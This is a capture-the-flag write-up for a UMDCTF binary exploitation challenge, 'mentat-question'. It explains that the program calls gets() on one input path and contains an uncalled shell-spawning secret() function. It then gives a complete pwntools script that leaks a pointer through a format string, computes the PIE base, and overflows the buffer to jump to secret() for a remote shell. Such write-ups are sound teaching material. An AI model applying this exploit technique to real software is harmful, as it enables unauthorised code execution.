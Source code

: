 This binary is seemingly straightforward. It provides an interface to divide two
numbers. However, looking closely you can see that it uses `gets()` if num2 < 1.
It also has a secret() function which spawns a shell when called however nowhere
in main is it called.

### Solve

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./mentat-question_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.umdctf.io", 32300)

    return r


def main():
    r = conn()

    pointer_offset = 0x206d
    buff = 20

    r.sendlineafter(b"?", b"Division")
    r.sendlineafter(b"?", b"123")
    log.info("Sending 2**32")
    r.sendline(str(2**32).encode('ascii'))
    # print(str(2**32).encode('ascii'))

    log.info("Leaking pointer")
    r.sendlineafter(b"?", b"Yes %p")

    r.recvline() # discard

    leak = int(r.recvline()[15:29], 16)
    log.info(f"leak: {hex(leak)}")
    log.info(f"pointer_offset: {hex(pointer_offset)}")
    exe.address = leak - pointer_offset
    log.info(f"address: {hex(exe.address)}")

    r.recvuntil(b"?")
    r.sendline(b"123")
    r.sendline(str(2**32).encode('ascii'))

    payload = b"Yes "
    payload += b"A"* buff
    payload += p64(exe.symbols["secret"] + 4)

    r.sendlineafter(b"?", payload)

    r.interactive()


```